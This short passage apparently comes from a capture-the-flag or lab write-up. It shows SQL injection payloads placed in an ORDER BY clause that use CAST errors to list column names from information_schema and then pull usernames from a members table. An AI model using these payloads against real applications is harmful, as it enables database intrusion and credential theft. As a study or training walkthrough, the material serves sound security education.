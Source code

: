 - Username column: us3rn4m3\_c0l

```sql
ASC,+CAST((SELECT+column_name+FROM+information_schema.columns+LIMIT+1+OFFSET+2)+AS+FLOAT)
```

![1](img/58/9.png)

- Password column: p455w0rd\_c0l

```sql
ASC,+CAST((SELECT+us3rn4m3_c0l+FROM+m3mbr35t4bl3)+AS+FLOAT)
```

![1](img/58/10.png)
